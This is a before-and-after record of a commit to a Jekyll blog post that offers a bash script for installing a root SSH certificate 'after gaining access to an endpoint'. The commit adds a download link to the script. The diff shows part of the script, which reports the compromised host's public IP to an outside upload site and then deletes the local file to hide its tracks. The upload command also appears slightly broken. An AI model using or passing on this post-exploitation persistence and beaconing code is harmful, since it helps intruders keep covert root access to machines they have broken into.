

Before and after one commit to StartTheTrip/startthetrip.github.io, a Jekyll site: the page built from _posts/2024-5-26-Root-SSH.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Add root ssh certificate download link.

````diff
--- a/_posts/2024-5-26-Root-SSH.md
+++ b/_posts/2024-5-26-Root-SSH.md
@@ -9,6 +9,9 @@ tags:
 After gaining access to an endpoint use the following script to install a root ssh certificate.
 
 This is for demonstration purposes only. SSH should not be accessed using root.
+
+Download script <a href="https://github.com/StartTheTrip/Bash/blob/b794be11bcc0f48554bdae66619aae4a4f312f16/Root%20SSH%20Certificate/add_root_ssh_certificate.sh">here</a>.<br>
+
 ```
 #!/bin/bash
 # Remote SSH Certificate Install - StartTheTrip
@@ -24,5 +27,5 @@ curl https://ifconfig.me >> /tmp/success.txt
 curl -f "file=@/tmp/success.txt" https://file.uploadsite.me
 rm -rf /tmp/success.txt
 ```
-<br><br>
+<br>
 Tag: Security, SSH
````
